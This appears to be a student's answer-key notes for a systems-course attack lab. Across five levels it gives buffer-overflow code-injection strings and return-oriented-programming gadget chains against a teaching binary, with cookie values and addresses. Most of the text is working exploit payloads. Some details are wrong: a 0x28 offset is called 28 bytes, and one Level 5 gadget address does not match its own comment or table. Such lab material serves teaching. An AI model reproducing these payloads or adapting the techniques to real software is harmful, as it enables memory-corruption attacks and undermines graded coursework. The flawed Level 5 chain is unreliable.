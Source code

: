 # Solution With Notes

## Level 1
- touch1 address: 0x00000000004017c0

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp      // Allocates 28 bytes
  ...
```

**String**: 
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00 /* touch1 address */
```

## Level 2
- touch2 address: 0x00000000004017ec

<ins> Exploit code:
```
   0:	bf fa 97 b9 59       	mov    $0x59b997fa, %edi    // Cookie value
   5:	c3                   	ret    
```

<ins> Format: 
  1. Filler
  2. Address of exploit code, *%rsp on getbuf ret
  3. Address of touch2, *%rsp on exploit code ret
  4. Exploit code

- Exploit code address: getbuf starting %rsp + 16 = 0x55685fc0 + 0x10 = 0x55685fd0

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d0 5f 68 55 00 00 00 00 /* exploit code address */
ec 17 40 00 00 00 00 00 /* touch2 address */
bf fa 97 b9 59 c3       /* exploit code */
```

## Level 3
- touch3 address: 0x00000000004018fa

<ins> Format: 
  1. Filler
  2. Address of exploit code
  4. Address of touch3
  5. Cookie string, 9 bytes
  6. Exploit code

- Exploit code address: getbuf starting %rsp + 16 + 9 = 0x55685fd9
- Cookie string: "59b997fa" -> hex -> 35 39 62 39 39 37 66 61 00
- Cookie string address: getbuf starting %rsp + 16 = 0x55685fd0

<ins> Exploit code:
```
   0:	bf d0 5f 68 55       	mov    $0x55685fd0, %edi      // Set argument 1 to point to cookie string (upper 32 bits set to 0)
   5:	c3                   	ret    
```

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d9 5f 68 55 00 00 00 00 /* exploit code address */
fa 18 40 00 00 00 00 00 /* touch3 address */
35 39 62 39 39 37 66 61 /* cookie string */
00
bf d0 5f 68 55 c3       /* exploit code */
```

## Level 4
- touch2 address: 0x00000000004017ec

| Address   | Operation |
| -------- | ------- | 
| 4019a2    | movq %rax, %rdi    |
| 4019ab    | popq %rax    |
    
    

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* popq %rax */
fa 97 b9 59 00 00 00 00 /* cookie value */
a2 19 40 00 00 00 00 00 /* movq %rax, %rdi */
ec 17 40 00 00 00 00 00 /* goto touch2 */
```

## Level 5
- touch3 address: 0x00000000004018fa

| Address   | Operation |
| -------- | ------- | 
| 4019a2    | movq %rax, %rdi    |
| 401a06    | movq %rsp, %rax    |
| 4019dd    | movl %eax, %edx    |
| 401a34    | movl %edx, %ecx    |
| 401a13    | movl %ecx, %esi    |
| 4019ab    | popq %rax    |

- Useful function: add_xy, address: 0x00000000004019d6

**String**:
```
/* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* Get offset and move it to %rsi */
ab 19 40 00 00 00 00 00 /* popq %rax, %rax = offset value */
40 00 00 00 00 00 00 00 /* offset value = 0x40 */
dd 19 40 00 00 00 00 00 /* movl %eax, %edx */
34 1a 40 00 00 00 00 00 /* movl %edx, %ecx */
13 1a 40 00 00 00 00 00 /* movl %ecx, %esi */

/* Get pointer to 2 lines below this one, add it to offset to get the pointer to cookie string */
ab 19 40 00 00 00 00 00 /* movq %rsp, %rax */
a2 19 40 00 00 00 00 00 /* movq %rax, %rdi */
d6 19 40 00 00 00 00 00 /* goto add_xy */

a2 19 40 00 00 00 00 00 /* movq %rax, %rdi */
fa 18 40 00 00 00 00 00 /* goto touch3 */

/* cookie string */
35 39 62 39 39 37 66 61
00
```
